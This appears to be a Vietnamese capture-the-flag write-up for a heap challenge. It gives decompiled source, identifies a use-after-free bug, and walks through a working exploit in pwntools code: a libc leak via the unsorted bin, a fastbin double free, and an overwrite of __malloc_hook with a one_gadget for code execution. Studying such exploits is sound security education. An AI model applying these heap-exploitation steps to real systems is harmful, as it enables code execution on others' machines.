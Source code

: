 # HEAP 2
## Source

<details> <summary> IDA </summary>

```c
__int64 createHeap()
{
  unsigned int Int; // [rsp+8h] [rbp-8h]
  unsigned int size; // [rsp+Ch] [rbp-4h]

  printf("Index:");
  Int = readInt();
  if ( Int >= 0xA )
    exit(0);
  printf("Input size:");
  size = readInt();
  if ( size > 0x1000 )
    exit(0);
  store[Int] = malloc(size);
  storeSize[Int] = size;
  printf("Input data:");
  readStr((void *)store[Int], size);
  puts("Done");
  return 0LL;
}

__int64 showHeap()
{
  unsigned int Int; // [rsp+Ch] [rbp-4h]

  printf("Index:");
  Int = readInt();
  if ( Int >= 0xA )
    exit(0);
  if ( store[Int] )
    printf("Data = %s\n", (const char *)store[Int]);
  return 0LL;
}

__int64 deleteHeap()
{
  unsigned int Int; // [rsp+Ch] [rbp-4h]

  printf("Input index:");
  Int = readInt();
  if ( Int >= 10 )
    exit(0);
  if ( store[Int] )
  {
    free((void *)store[Int]);
    puts("Done ");
  }
  return 0LL;
}

__int64 editHeap()
{
  unsigned int Int; // [rsp+Ch] [rbp-4h]

  printf("Input index:");
  Int = readInt();
  if ( Int >= 0xA )
    exit(0);
  if ( store[Int] )
  {
    readStr((void *)store[Int], storeSize[Int]);
    puts("Done ");
  }
  return 0LL;
}

__int64 menu()
{
  puts("1: create heap");
  puts("2: shop heap");
  puts("3: edit heap");
  puts("4: delete heap");
  puts("5: exit");
  puts(">");
  return 0LL;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  initState(argc, argv, envp);
  puts("Ez heap challange !");
  while ( 1 )
  {
    menu();
    switch ( (unsigned int)readInt() )
    {
      case 1u:
        createHeap();
        break;
      case 2u:
        showHeap();
        break;
      case 3u:
        editHeap();
        break;
      case 4u:
        deleteHeap();
        break;
      case 5u:
        exit(0);
      default:
        puts("no option");
        break;
    }
  }
}

```

</details>

## Ý tưởng
- Đầu tiên ta nhắc lại lí thuyết về libc.2.23. Cơ chế fastbin là dslk đơn, lưu từ 0x20 - 0x80, chunk khi được free sẽ có cơ chế sau:
    - Nếu chunk được free có size (ví dụ 0x30), mà trong fastbin chưa có chunk nào được lưu (ở 0x30) thì 8 byte đầu tiên (sau header chunk) sẽ là 0x0
    - Nếu đã có chunk trước đó được lưu (ở 0x30), thì chunk thứ 2 được free (vào 0x30) sẽ là địa chỉ chunk trước đó (tính từ header chunk 1)
- Khi chunk trong fastbin được malloc ra, nó sẽ trỏ đến địa chỉ mà chunk trong fastbin đang chứa
- Từ các lí thuyết trên ta thấy, nếu có UAF, thay đổi địa chỉ mà chunk đang trỏ, ta có thể ghi đè các giá trị khác.
- Một lí thuyết khá hữu ích nữa là nếu cần leak libc, ta có thể free 2 chunk A, B vào Unsorted bin và in chunk A (chunk A giữ 1 địa chỉ của rwsection trong libc)
- Quay trở lại bài này, ta có thể thấy lỗ hổng chương trình nằm ở việc khi `create heap`, địa chỉ chunk được lưu vào một mảng global `store[Int] = malloc(size);`, tuy nhiên khi `delete heap`, các chunk được free không hề bị xoá địa chỉ ở `store`, điều đó dẫn đến lỗi UAF trong option `edit heap`

## Khai thác
### Leak libc
- Ban đầu mình tính dùng `show heap` với các giá trị âm để có thể leak các dữ liệu mình muốn, tuy nhiên mình không thể vì `unsigned int Int;` khi nhập số âm ở kiểu int (hàm atoi()) nhưng qua bên `Int` là kiểu unsigned int thì nó trở thành số dương và lớn hơn `0xa` nên chương trình exit luôn
```c
  unsigned int Int; // [rsp+Ch] [rbp-4h]

  printf("Index:");
  Int = readInt();
```
- Vậy bây giờ, ta thử leak libc bằng unsorted bin.
- Ta sẽ tạo 2 chunk A, B sau đó free chunk A đi. Tại sao free chunk A mà không free chunk B đi nhỉ?
- Mình đã thử free chunk B đi xem kết quả ntn, kết quả khi free chunk B đi
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/d7992b8b-3c55-456a-84b7-3187c55374b1)
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/f254e7b8-505d-495e-97dc-c306c77e7bbe)
- Thử tạo 3 chunk và free chunk giữa xem, nếu free chunk giữa mà có địa chỉ libc ở bên trong chunk thì có thể do top chunk "giữ hộ" chunk cạnh top chunk
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/d02dd216-0a4c-441b-9a74-acf098a78084)
- Chính xác là top chunk có thể đã gộp chunk được free cạnh nó.
- Vậy quay lại chủ đề là chúng ta sẽ dùng 2 chunk A, B sau đó free chunk A
```python
create(b"0", b"130", b"A"*130)
create(b"1", b"130", b"B"*130)

delete(b"0")
show(b"0")
p.recvuntil(b"Data = ")
libc_leak = u64(p.recv(6) + b"\0\0")
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x39bb78
info("libc base: " + hex(libc.address))
```

### DBF
- Ta tiến hành DBF (lưu ý size)
```python
create(b"2", b"96", b"a"*96)
create(b"3", b"96", b"a"*96)
delete(b"2")
delete(b"3")
delete(b"2")
```
> mục đích DBF vì ta có thể điều khiển chương trình, có được con trỏ để thay đổi chương trình

- Khi này trong danh sách fastbin sẽ như sau
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/a3344e2f-7fec-4e52-991d-5ad349389780)
- Các số cũng là thứ tự khi được lấy ra
- Bây giờ ta có thể thay đổi dữ liệu của chunk 3 (hình trên) thông qua chunk 1, để nó trỏ đến một vùng nhớ khác.
- Giả sử sau khi DBF, mình gọi lại chunk thứ nhất trong fastbin ra
```python
create(b"4", b"96", b"a" * 8)
```
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/66282eec-529b-4ddc-8e30-a72c8d95374f)
> có lẽ vùng địa chỉ mới không hợp lệ nên nó không hiện ra
- Ta thử một vùng rw section trong libc
```python
create(b"4", b"96", b"a" * 8)
edit(b"4", p64(libc.address + 0x5c5e40))
```
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/f68fd31a-f87e-4827-99df-70e9ed5f0be0)
- Ta đã tạo một fake chunk mới
- Tuy nhiên để malloc được thì nó sẽ kiểm tra `size != 0` và `chunk & 0xf != 0`, và mục tiêu của chúng ta là ghi đè `__malloc_hook`
- Để có thể set size của fake chunk thì ta sẽ tìm các địa chỉ trên `__malloc_hook` 
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/e52329b2-26e3-47a0-967e-f22dee7c99ff)
- Thì như ta đã biết, header heap có 0x10 byte, trong đó 0x8 byte sẽ là size của chunk, nên ta có thể lợi dụng vùng nhớ này để set size cho fake chunk size
- Và khi malloc ra nó cũng sẽ kiểm tra size của chunk đó có phù hợp không, nghĩa là nếu trong danh sách fastbin 0x60 nhưng lại có 1 chunk 0x80 hoặc không nằm trong vùng 0x60 - 0x6f thì sẽ lỗi ngay, do đó ngay chỗ DBF phía trên sẽ phải tạo và free các chunk có cùng size với size fake chunk này.
- Do đó khi ở chỗ khai thác DBF, mình lấy 0x60 (96) byte để khi làm tròn nó sẽ là 0x70 byte, free đi thì nó ở fastbin 0x70
```python
create(b"4", b"96", p64(libc.sym['__malloc_hook'] - 35))
```
- Vầ bây giờ ta sẽ lấy chunk thứ 4 (hình trên) trong fastbin ra để ghi đè `__malloc_hook`, và ghi đè one_gadget vào
- Sở dĩ vì sao có 19 byte a là vì khi nãy ta tạo fake chunk ở -35, khi malloc thì nó sẽ lấy 16 byte làm header, vậy còn 19 byte còn lại mới bắt đầu ghi đè `__malloc_hook`
```python
create(b"5", b"96", b"C"*0x8)
create(b"6", b"96", b"D"*8)
one_gadget = libc.address + 0xd5bf7
create(b"6", b"96", b"1"* 19 + p64(one_gadget))
```
- Sau khi ta lấy fake chunk ra thì bây giờ ta tạo lỗi DBF để khi chương trình check, nó sẽ gọi `one_gadget`

```python
delete(b"5")
delete(b"5")
```

## Kết quả
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/2d71f6ed-a03a-4d51-ba54-184b917e7eab)
